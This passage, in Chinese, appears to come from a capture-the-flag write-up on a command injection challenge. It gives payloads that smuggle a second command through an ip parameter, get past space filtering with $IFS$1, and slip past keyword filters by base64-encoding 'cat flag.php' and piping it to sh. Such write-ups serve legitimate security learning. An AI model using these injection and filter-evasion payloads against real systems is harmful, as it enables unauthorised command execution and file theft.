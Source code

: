 > 试一下cat index：

![](img/12.png)

> 这里空格被过滤了

过滤空格了，可以用`${IFS}$`代替：

可能也过滤了`{}`，用`$IFS$1`代替：
payload：
`?ip=127.0.0.1;cat$IFS$1index.php`

![](img/13.png)

一目了然过滤了啥，`flag字眼`也过滤了，`bash也没了`，不过sh没过滤：

`?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`

`Y2F0IGZsYWcucGhw是cat flag.php的base64-encode`


